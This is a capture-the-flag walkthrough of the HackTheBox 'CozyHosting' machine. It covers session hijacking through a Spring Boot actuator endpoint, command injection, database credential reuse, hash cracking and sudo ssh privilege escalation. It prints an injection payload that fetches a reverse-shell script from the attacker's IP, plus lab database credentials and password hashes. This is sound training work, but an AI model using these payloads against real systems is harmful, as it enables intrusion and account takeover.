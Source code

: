 # CozyHosting

## Nmap scan

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Site enumeration

Looking at the site it is hard to indentify what it is running but I rembered something from an ippsec video that helps me. You can identify services by the applications 404 page!!! This [resource ](https://0xdf.gitlab.io/cheatsheets/404)helps.

And it tells us its spring boot!

Doing some googling we can find typical spring boot end points with this [resource](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html).

And we find an interesting actuator endpoint. Looking around and we can find session for the kanderson with what seems to be a hash.

```
8FED324727395ED7BB4D3D7D9A904355
```

After some time wasted trying to crack this hash I realised it was a cookie and not a hash....

We can swap that with our current session and after I get in I find executessh is vulnerable to command injection i tried a lot of things to get a shell and finially did this&#x20;

```
0xdf;curl${IFS}http://10.10.16.5:8000/rev.sh${IFS}-o${IFS}/tmp/rev.sh
```

And we have a shell!

## Priv esc

Linpeas and sudo -l do not find anything of not but we do have a jar file

We can extact and search for passwords

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

And we find credentials for postgres, we can use this command to login.

```
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

And we find hashes

```
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

And we can crack the hash...

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

We try to ssh as root but fail. Looking at the passwd file we see a user called josh and this password does work!!

Now as the josh user we run sudo -l and see we can run ssh as root!!

This [exploit ](https://gtfobins.github.io/gtfobins/ssh/#sudo)from GTFOBins gets us root in one line.

PWNNDDDD
